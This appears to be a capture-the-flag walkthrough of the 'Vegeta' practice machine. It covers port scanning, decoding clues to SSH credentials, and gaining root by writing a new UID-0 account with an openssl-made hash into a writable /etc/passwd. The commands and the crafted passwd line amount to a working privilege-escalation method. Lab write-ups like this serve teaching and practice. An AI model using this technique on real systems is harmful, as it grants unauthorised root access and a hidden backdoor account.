 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled.png)

```bash
IP : 10.0.2.56
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegita]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 11:57 IST
Nmap scan report for 10.0.2.56
Host is up (0.00050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f3130673f08302e6daee3209ebd6bba (RSA)
|   256 7d8855a86f56c805a47382dcd8db4759 (ECDSA)
|_  256 ccdede4e84a891f51ad6d2a62e9e1ce0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:98:50:DA (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%201.png)

Lets see the Directory Traversal files —>

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%202.png)

Lets got to this file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%203.png)

Lets decode this base64 encoded in readable form →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%204.png)

Now lets see this data.png file and decode it further since it is qrcode so →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%205.png)

Now I got a string → `Password : topshellv` →

But on further enumeration I find this password as a rabbit hole so lets dig in further through directory traversal with rockyou.txt file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%206.png)

Now I got a directory named as `/bulma/` →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%207.png)

Now I got a audio file so lets decode it with morse code decoder →

[https://morsecode.world/international/decoder/audio-decoder-adaptive.html](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%208.png)

From decoder I got the credentials →

```bash
U S E R : T R U N K S  
P A S S W O R D : U $ 3 R
```

Now lets dig into the ssh shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegeta]
└─$ ssh trunks@10.0.2.56
trunks@10.0.2.56's password: 
Linux Vegeta 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 28 21:16:00 2020 from 192.168.43.72
trunks@Vegeta:~$ whoami
trunks
trunks@Vegeta:~$
```

Now lets the file permissions →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%209.png)

Since this file can be modifed as trunks too so lets go and add a new user with root privileges →

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

```bash
trunks@Vegeta:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
trunks:x:1000:1000:trunks,,,:/home/trunks:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
trunks@Vegeta:~$ nano /etc/passwd
trunks@Vegeta:~$ su shiv
Password: 
root@Vegeta:/home/trunks# whoami
root
root@Vegeta:/home/trunks# cd ~
root@Vegeta:~# ls -al
total 32
drwx------  3 root root 4096 Jun 28  2020 .
drwxr-xr-x 18 root root 4096 Jun 28  2020 ..
-rw-------  1 root root  186 Jun 28  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Jun 28  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1379 Jun 28  2020 root.txt
-rw-------  1 root root 1827 Jun 28  2020 .viminfo
root@Vegeta:~# cat root.txt

                               ,   ,'|
                             ,/|.-'   \.
                          .-'  '       |.
                    ,  .-'              |
                   /|,'                 |'
                  / '                    |  ,
                 /                       ,'/
              .  |          _              /
               \`' .-.    ,' `.           |
                \ /   \ /      \          /
                 \|    V        |        |  ,
                  (           ) /.--.   ''"/
                  "b.`. ,' _.ee'' 6)|   ,-'
                    \"= --""  )   ' /.-'
                     \ / `---"   ."|'
  V E G I I T A       \"..-    .'  |.
                       `-__..-','   |
                     _.) ' .-'/    /\.
               .--'/----..--------. _.-""-.
            .-')   \.   /     _..-'     _.-'--.
           / -'/      """""""""         ,'-.   . `.
          | ' /                        /    `   `. \
          |   |                        |         | |
           \ .'\                       |     \     |
          / '  | ,'               . -  \`.    |  / /
         / /   | |                      `/"--. -' /\
        | |     \ \                     /     \     |
 	 | \      | \                  .-|      |    |

Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw

root@Vegeta:~#
```